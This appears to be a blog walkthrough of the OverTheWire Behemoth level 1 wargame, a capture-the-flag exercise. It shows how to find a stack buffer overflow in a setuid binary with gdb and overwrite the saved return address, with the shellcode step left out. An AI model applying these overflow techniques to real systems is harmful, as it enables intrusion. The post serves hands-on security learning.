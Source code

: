 ```yaml
---
layout: post
title: How to solve behemoth1 task
---
```


The tasks have been taken from [overthewire.org](http://overthewire.org/wargames/behemoth/).

Login into the warbox:

```
    $ ssh behemoth1@behemoth.labs.overthewire.org -p 2221
    with password you've obtained in behemoth0
```

Run and try to enter strings of various length:

```
    $ /behemoth/behemoth1
```

It's easy to find out that entering something longer than 75
symbols crashes the program. Congratulations, this is stack
overflow problem.

`012345678901234567890123456789012345678901234567890123456789012345678901234`

Let's take a look at the file. It has `suid` bit as most of
the problems from the suite. `readelf` or `objdump` would not
should you anything interesting.

```
    $ cat /behemoth/behemoth0
```

Ok, go for gdb with:

```
    $ gdb -ix /usr/local/gdbinit/gdbinit /behemoth/behemoth1
    gdb$ func
    gdb$ dis main
```

You will see a disassembled `main` listing. What is interesting
here, is that the function is very short and contains nothing but
immediate `puts` call responding with a failed authentication
right after the `gets` request for the password.

There is no password here. No password check. You have to exploit
stack overflow to gain access to the next flag. So here you go.

Set breakpoint at the last `leave` instruction, and calculate
size of the message for `ebp` and `eip` values on the stack.

```
    gdb$ b *0x0804847f
    gdb$ run < <(echo -ne "123123456789012345678901234567890123456789012345678901234567890123467890123\x00\x00\x00\x00\x00\x00\x00\x00")
    Breakpoint 1, 0x0804847f in main ()
    gdb$ hexdump $esp 7
```

Beginning of the buffer may be calculated following the instructions
in main or right from the hexdump:

```
    gdb$ p $ebp-0x60-0x8+0x1d
    $1 = (void *) 0xffffd56d
```

`eip` starts at

```
    gdb$ p $ebp+0x4
    $2 = (void *) 0xffffd5bc
```

Rerun program with `eip` replaced for the beginning of the buffer.

```
    gdb$ run < <(echo -ne "123123456789012345678901234567890123456789012345678901234567890123467890123\x00\x00\x00\x00\x6d\xd5\xff\xff")
    Breakpoint 1, 0x0804847f in main ()
    gdb$ n 2
    0xffffd56d in ?? ()
```

So, it works. We've got our process jumped right into the buffer.

Now, we need to load the input with a program to replace current
process with a `/bin/sh`.

...

Use obtained password to enter new a `/bin/sh`
shell and get a flag for the next warbox.

Links
===

- [Objdump - How to output text (eg ASCII strings) alongside assembly code?](https://reverseengineering.stackexchange.com/questions/14633/objdump-how-to-output-text-eg-ascii-strings-alongside-assembly-code)
- [convert a hex string to binary and send with netcat](https://unix.stackexchange.com/questions/82561/convert-a-hex-string-to-binary-and-send-with-netcat)
- [gdb - debugging with pipe](https://stackoverflow.com/questions/1456253/gdb-debugging-with-pipe?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa)
